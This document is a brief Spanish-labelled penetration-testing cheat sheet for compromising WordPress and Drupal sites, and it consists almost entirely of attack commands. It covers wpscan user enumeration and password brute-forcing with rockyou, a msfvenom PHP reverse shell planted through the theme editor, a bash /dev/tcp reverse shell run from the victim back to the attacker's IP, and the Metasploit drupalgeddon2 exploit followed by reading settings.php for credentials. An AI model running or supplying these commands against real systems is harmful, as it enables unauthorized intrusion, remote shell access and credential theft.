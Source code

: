 ## Wordpress

### wpscan

```bash
wpscan --url http://IP/blog --enumerate u,vp

wpscan --url http://IP/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```

Appearance -> Theme Editor -> Theme Footer

```bash
msfvenom -p php/reverse_php LHOST=nuestraIP LPORT=443 -f raw > pwned.php
cat pwned.php

sudo nc -nlvp 443
```

Desde la máquina victima

```bash
bash -c "sh -i >& /dev/tcp/nuestraIP/443 0>&1"
```

## Drupal

```bash
msfconsole
search drupal 7 / 8
use drupal_drupalgeddon2
set RHOST http://IP/ruta/drupal
set LHOST nuestraIP
run

shell
bash -i
find / -name settings.php 2>/dev/null
cat /var/www/html/sites/default/settings.php
```
